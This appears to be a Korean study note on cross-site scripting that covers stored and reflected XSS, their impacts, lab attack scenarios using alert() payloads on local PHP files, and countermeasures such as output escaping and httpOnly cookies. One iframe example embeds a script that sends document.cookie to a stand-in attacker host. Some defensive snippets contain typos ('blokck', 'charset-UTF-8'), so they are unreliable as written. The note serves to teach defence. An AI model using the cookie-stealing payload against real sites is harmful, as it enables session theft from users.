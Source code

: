 # 1. XSS

## 개요

- 크로스 사이트 스트립트(XSS)
    - 정의
        - 웹사이트 관리자가 아닌 공격자(attacker)가 웹 페이지에 악성 스크립트를 삽입할 수 있는 취약점
    - 발생 원인
        - HTML을 생성할 때 HTML 문법에 특수문자가 제대로 처리되지 않아서 발생
        - HTML 이스케이프 개요
            - HTML에서는 ‘<’ 를 사용할 경우 ‘&lt;’로 작성되어야 한다. 왜냐하면 해당 값으로 브라우저는 ‘<’를 시작 태그로 판단하기 때문
            - 이처럼 이스케이프 방법은 아래처럼 표시
            
            | 놓여져 있는 위치 | 설명 | 최초 이스케이프 내용 |
            | --- | --- | --- |
            | 요소 내용 | 태그와 문자 참고로 해석
            "<"으로 끝 | "<"와 "&"을 문자 참고로 |
            | 속성 값 | 문자 참조로 해석
            큰 따옴표가 끝 | 속성 값을 "''”으로 둘러 싸고, "<"와  "''”, "&"을 문자 참고로  |
            
- 공격 종류
    - Stored XSS  와 Stored XSS
        - Stored XSS
            - 공격용 자바스크립트가 취약한 서버에 저장된 상태로 지속적으로 피해를 끼침
            - 스크립트 구문 그대로 페이지에 남아 있음
        - Reflected XSS
            - 공격용 자바스크립트가 대상 사이트가 아닌 메일이나 피싱 사이트에 존재
            - 특정 매개변수를 입력받는 형태

- 취약점 영향
    - 사이트 사용자의 브라우저에서 공격자가 준비한 스크립트가 실행되면서 쿠키값 탈취 가능
    - 브라우저에서 스크립트가 동작하여 웹 응용 프로그램을 악용 가능
    - 웹 사이트에 위조된 입력 양식을 표시하여 개인정보 탈취
    - 수동적인 공격을 통한 다른 사용자의 쿠키값 훔치기
        - 실제 공격은  취약한 사이트를 구성하여 해당 사이트로 유인
        - HTML의 iframe 태그 안에 취약한 사이트 페이지를 삽입해 XSS 공격을 시도
        - iframe 공격 예시
            
            ```abap
            <html><body>
            할인 상품 정보
            <br><br>
            <iframe width=320 height=100 src="http://example.jp/43/43-001.php?keyword=<script>window.location='http://trap.example.com/43/43-901.php?sid='%2Bdocument.cookie;</script>"></iframe>
            </body></html>
            
            ```
            

---

## 공격 시라니오

1. Stored XSS
    - 참고 사항
        - 댓글을 달 수 있는 게시판 형식의 php 파일
        - 댓글의 스크립트을 통해 지속적으로 공격이 발생
    - 참고 파일
        - 1-1. php
    - 공격 시나리오
        1. 1.1.php URL 접속
        2. 아래와 같은 악성 스크립트를 댓글에 입력하고 제출:
        
        ```html
        <script>alert('Stored XSS!');</script>
        
        ```
        
        1. 단 댓글이 모든 사용자에게 표시될 때 자동 실행됨

1. Reflected XSS
    - 참고 사항
        - 사용자가 특정 URL을 접속하도록 유도
        - 특정 매개변수를 통해 공격을 실행
    - 참고 파일
        - 1-2. php
    - 공격 시나리오
        1. 피해자에게 다음과 같은 URL을 유도
            
            ```html
            http://localhost/reflected_xss.php?q=<script>alert('Reflected XSS!')</script>
            
            ```
            
        2. 검색 결과에 악성 스크립트가 즉시 반영되어 실행
    
    ---
    
- 대책
    1. HTML의 이스케이프 처리에 사용하는 함수 사용
        1. htmlspecialchars
            1. 해당 함수를 통해 최대 4개의 함수를 인식하고 이스케이프 처리 가능
            2. 예제
                1. 1-3에 첨부(1. 시나리오 Stored XSS)
        2. 응답의 문자 인코딩 지정
            1. 웹 응용 프로그램에서는 상정한 문자 인코딩과 웹 브라우저가 상정하는 인코딩에 차이가 있음으로 해당 취약점의 원인이 됨
                
                ```c
                header(’Content-Type: text/html; charset-UTF-8’)
                ```
                
            2. 예제
                1. 1-4에 첨부(2. 시나리오 Reflected XSS)
        3. X-XSS-Protection 응답 헤더 사용
            1. 최신 브라우저에는 XSS 필터라는 보안 기능이 구현
            2. XSS 필터는 반사형 XSS 공격을 무효화하게 설정할 수 있음
            
            ```c
            X-XSS-Protection: 1; mode=blokck
            ```
            
        
         d. 입력값 검증
        
        1. 입력값에 대한 검증하는 로직을 구현
        
        e. 쿠키에 httpOnly 속성을 부여
        
        1. 쿠키 속성 중에 httpOnly 기능을 활성화